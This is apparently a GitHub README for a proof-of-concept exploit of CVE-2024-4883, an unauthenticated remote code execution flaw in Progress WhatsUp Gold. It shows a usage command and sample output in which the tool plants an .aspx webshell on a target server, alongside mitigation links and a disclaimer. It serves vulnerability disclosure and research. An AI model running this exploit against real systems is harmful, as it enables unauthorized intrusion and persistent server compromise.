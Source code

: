 # CVE-2024-4883
PoC for CVE-2024-4883 Progress WhatsUp Gold WriteDatafile Unauthenticated Remote Code Execution (CVE-2024-4883)


## Technical Analysis
A root cause analysis of the vulnerability can be found on my blog:
https://summoning.team/blog/progress-whatsup-gold-WriteDataFile-CVE-2024-4883-RCE/

[![ZDI](poc.jpg)](https://summoning.team/blog/progress-whatsup-gold-WriteDataFile-CVE-2024-4883-RCE/)




## Usage
```
WhatsUpWriteDataFileExploit.exe --target 192.168.0.11 --port 9643 --webshell hax.aspx

 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |

        (*) Progress WhatsUp Gold WriteDataFile Unauthenticated Remote Code Execution (CVE-2024-4883)

        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam)

        (*) Technical details: https://summoning.team/blog/progress-whatsup-gold-WriteDataFile-CVE-2024-4883-RCE


(^_^) Prepare for the Pwnage (^_^)

(*) Connecting to ICoreServices net.tcp://192.168.0.11:9643/
(*) Connection is ready
(*) Using write what where primitive, to plant C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\eb8e455a-28d2-4628-80cb-ef2d786c8409.aspx
(+) Webshell has been planted at https://192.168.0.11/NmConsole/eb8e455a-28d2-4628-80cb-ef2d786c8409.aspx

```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Progress Advisory
* https://community.progress.com/s/article/WhatsUp-Gold-Security-Bulletin-June-2024

## Follow Us on Twitter(X) for the latest security research:
*  [SinSinology](https://x.com/SinSinology)
*  [SummoningTeam](https://x.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

